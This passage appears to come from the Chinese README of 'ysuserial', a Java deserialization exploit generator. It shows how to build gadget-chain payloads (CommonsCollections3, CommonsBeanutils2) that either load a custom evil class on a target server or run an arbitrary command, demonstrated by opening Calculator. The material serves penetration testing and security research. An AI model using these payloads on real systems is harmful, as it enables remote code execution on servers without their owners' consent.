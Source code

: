 ### 任意自定义代码

如果你不想使用本项目中提供的恶意逻辑，也不想执行命令，可以通过自定义代码的形式，自定义代码将会在目标服务器通过 ClassLoader
进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径。

示例：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections3 -p LF-/tmp/evil.class-org.su18.Evil
```

效果图：

![image-20220619004500004](images/image-20220619004500004.png)

### 普通命令执行

最后是普通的执行命令，直接输入待执行的命令即可。

**普通命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils2 -p 'open -a Calculator.app'
```

效果图：

![image-20220618223134650](images/image-20220618223134650.png)
